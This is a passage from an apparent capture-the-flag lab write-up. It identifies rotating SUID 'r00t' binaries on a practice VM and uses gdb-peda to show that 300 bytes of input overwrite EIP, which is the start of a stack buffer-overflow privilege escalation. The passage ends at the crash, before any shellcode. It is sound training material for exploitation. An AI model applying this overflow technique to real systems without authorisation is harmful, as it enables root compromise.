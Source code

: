Each door folder includes a file called r00t, which is a binary. However, there are 3 different versions. One of them puts you into an rbash shell for 2 minutes, one of them kicks you out and reboots the VM, and the other one (the largest one) repeats anything you provide it via stdin. These files are SUID, so, looks like we have a standard buffer overflow here.

``` bash
-rwsr-xr-x 1 root root 7273 Oct  5 21:16 r00t
-rwsr-xr-x 1 root root 8401 Oct  5 21:16 r00t
-rwsr-xr-x 1 root root 7271 Oct  5 21:17 r00t
```

Something to note here before we carry on - a scheduled script rotates these files, so make sure you always work on the file that is 8401 bytes large - you may have to change into a different door directory.

Loading the file in GDB shows that you can easily overflow it with about 300 bytes of input.

``` bash
root@pwk:~# gdb ./r00t
GNU gdb (GDB) 7.4.1-debian
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /root/troll/r00t...done.
gdb-peda$ r $(python -c 'print "A"*300');

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x12c
EBX: 0xb7fbeff4 --> 0x15ed7c
ECX: 0xbffff4d8 --> 0xb7fbf4e0 --> 0xfbad2a84
EDX: 0xb7fc0360 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff610 ('A' <repeats 28 times>)
EIP: 0x41414141 ('AAAA')
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xbffff610 ('A' <repeats 28 times>)
0004| 0xbffff614 ('A' <repeats 24 times>)
0008| 0xbffff618 ('A' <repeats 20 times>)
0012| 0xbffff61c ('A' <repeats 16 times>)
0016| 0xbffff620 ('A' <repeats 12 times>)
0020| 0xbffff624 ("AAAAAAAA")
0024| 0xbffff628 ("AAAA")
0028| 0xbffff62c --> 0x8048200 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$
```
